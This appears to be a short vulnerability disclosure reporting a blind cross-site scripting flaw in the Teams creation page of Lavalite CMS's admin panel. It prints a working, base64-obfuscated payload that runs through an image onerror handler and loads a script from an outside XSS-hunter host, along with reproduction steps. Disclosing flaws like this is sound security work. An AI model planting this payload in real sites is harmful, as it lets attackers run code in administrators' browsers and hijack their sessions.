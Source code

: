 # Description
Blind XSS triggered at Teams creation page of lavalite CMS admin account. 
# Payload USED
```
"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYmVlZmVlLnhzcy5odCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61; onerror=eval(atob(this.id))>
```
# POC
* create anew team with name as the xss payload and save it the just open the page again.
* Booyah!!! XSS triggered.
# PermaLinks
[drive link](https://drive.google.com/drive/folders/1Yur7pAeci-lTklfReEum_yAJr4MJM9py?usp=sharing)
